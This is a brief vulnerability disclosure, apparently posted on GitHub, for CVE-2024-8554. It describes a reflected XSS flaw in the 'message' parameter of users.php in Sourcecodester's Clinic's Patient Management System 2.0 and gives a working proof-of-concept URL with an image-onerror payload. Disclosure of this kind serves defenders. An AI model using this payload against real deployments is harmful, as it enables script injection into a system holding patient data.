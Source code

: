 # Reflected XSS vulnerability was discovered in Sourcecodester's Clinic's Patient Management System - PHP 2.0 (message)
---

---
Affected Project: Sourcecodester Clinic's Patient Management System - PHP 2.0

Official Website: [Sourcecodester Clinic's Patient Management System](https://www.sourcecodester.com/php-clinics-patient-management-system-source-code)

Version: 2.0
---
## CVE-2024-8554
---



Releted Code: users.php
*Line Number: 256-259*

![image](https://github.com/gurudattch/CVEs/blob/main/assets/14.png)

---

![image1](https://github.com/gurudattch/CVEs/blob/main/assets/15.png)

---

Add the XSS payload in **message** parameter

`http://192.168.95.115/users.php?message="><img src=x onerror=alert()>`

---

![image2](https://github.com/gurudattch/CVEs/blob/main/assets/16.png)
